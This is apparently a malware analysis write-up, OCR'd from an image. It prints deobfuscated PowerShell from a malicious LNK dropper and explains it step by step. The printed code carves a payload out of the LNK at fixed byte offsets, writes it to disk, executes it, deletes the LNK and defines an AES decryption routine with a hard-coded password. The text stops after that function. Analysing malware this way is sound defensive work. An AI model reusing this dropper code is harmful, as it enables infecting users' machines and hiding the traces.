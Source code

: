 
```powershell
$InputStream = New-Object System.IO.FileStream($lnkpath, [IO.FileMode]::Open, [System.IO.FileAccess]::Read);
$file=New-Object Byte[]($InputStream.length);
$len=$InputStream.Read($file,0,$file.Length);
$InputStream.Dispose();write-host "readfileend";
```
- These lines open the identified LNK file for reading, create a byte array with the same length as the file, read the file contents into the byte array, and then dispose of the input stream. The write-host "readfileend" line is likely used for debugging or logging purposes.

```powershell
$path = $lnkpath.substring(0,$lnkpath.length-4);
$path1 = '%temp%\tmp' + (Get-Random) + '.vbs';
$len1 =    1057248
;$len2 =    1110496;
$len3 =    1110496;
$temp = New-Object Byte[]($len2-$len1);write-host "exestart";
for($i=$len1; $i -lt $len2; $i++) { 
    $temp[$i-$len1] = $file[$i]
    };
sc $path ([byte[]]$temp) -Encoding Byte;write-host "exeend";
```
- In this section, the script extracts a portion of the LNK file's byte array ($file) between the offsets $len1 and $len2. This extracted byte array ($temp) is then written to a file with the same name as the LNK file but without the ".lnk" extension. The sc command is likely an alias or a custom function that creates or modifies this file.

- The $path1 variable is assigned a random name with a ".vbs" extension in the temporary directory (%temp%). This VBS file may be used for further malicious activities or as a temporary file for staging purposes.

```powershell
$temp = New-Object Byte[]($file.Length-$len3);
for($i=$len3; $i -lt $file.Length; $i++) { 
    $temp[$i-$len3] = $file[$i]
    }; 
$encData_b64 = Start-Process -FilePath $path;[System.IO.File]::Delete($lnkpath);
```
- This code extracts another portion of the LNK file's byte array, starting from the offset $len3 until the end of the file. The extracted bytes are stored in the $temp array. The script then launches the previously created file ($path) using the Start-Process cmdlet, likely executing the extracted payload. Finally, the original LNK file is deleted using **[System.IO.File]::Delete($lnkpath)**.

```powershell
Function AESDecrypt { 
    param ( [Byte[]]$bytes,[String]$pass="pa55w0rd") 
    $InputStream = New-Object System.IO.MemoryStream(,$bytes);
    $OutputStream = New-Object System.IO.MemoryStream;
    $Salt = New-Object Byte[](32);
    $BytesRead = $InputStream.Read($Salt, 0, $Salt.Length);
    if ( $BytesRead -ne $Salt.Length ) { 
        exit;
        } 
    $PBKDF2 = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($pass, $Salt);
    $AESKey = $PBKDF2.GetBytes(32);
    $AESIV = $PBKDF2.GetBytes(16);
    $AES = New-Object Security.Cryptography.AesManaged;
    $Dec = $AES.CreateDecryptor($AESKey, $AESIV);$CryptoStream = New-Object System.Security.Cryptography.CryptoStream($InputStream, $Dec, [System.Security.Cryptography.CryptoStreamMode]::Read);
    $CryptoStream.CopyTo($OutputStream);
    $OutputStream.Dispose();return $OutputStream.ToArray();
    }  
```